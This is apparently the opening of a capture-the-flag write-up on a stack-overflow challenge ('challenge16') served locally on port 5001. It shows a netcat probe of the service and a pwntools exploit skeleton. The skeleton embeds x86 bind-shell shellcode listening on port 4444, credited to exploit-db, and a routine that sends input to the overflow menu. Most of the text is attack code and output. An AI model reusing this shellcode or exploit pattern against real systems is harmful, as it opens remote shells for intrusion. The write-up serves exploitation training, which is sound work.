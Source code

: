 
## Step 1: Check program behaviour

```
root@hlUbuntu64:~/challenges/challenge16# nc localhost 5001
Press:
  0   To quit
  1   To stack overflow
> 1
How many bytes do you want to read?
> 4
Ok, i'll read 4 bytes
Input string:
> AAAA
I've read: 4 bytes
Ok, done
```

## Step 2: basic exploit skeleton

```
#!/usr/bin/python

import struct
from pwn import *

# bind shell localhost 4444
# https://www.exploit-db.com/exploits/40056/
# 98 bytes
shellcode = "\x31\xc0\x31\xdb\x50\xb0\x66\xb3\x01\x53\x6a\x02\x89\xe1\xcd\x80\x89\xc6\x31\xd2\x52\x66\x68"
shellcode += "\x11\x5c" # port number 4444
shellcode += "\x66\x6a\x02\x89\xe1\xb0\x66\xb3\x02\x6a\x10\x51\x56\x89\xe1\xcd\x80\xb0\x66\xb3\x04\x52\x56\x89\xe1\xcd\x80\xb0\x66\xb3\x05\x52\x52\x56\x89\xe1\xcd\x80\x89\xc3\x31\xc9\xb1\x03\xb0\x3f\xcd\x80\xfe\xc9\x79\xf8\xb0\x0b\x52\x68\x6e\x2f\x73\x68\x68\x2f\x2f\x62\x69\x89\xe3\x52\x53\x89\xe1\xcd\x80";


e = ELF("./challenge16")
tube = connect("localhost", 5001)

def doBof():
        print tube.recvuntil(">")
        tube.sendline("1");

        print tube.recv()
        tube.sendline("8");

        print tube.recv()
        tube.sendline("AAAAAAAA")

        print tube.recv()


doBof()
```
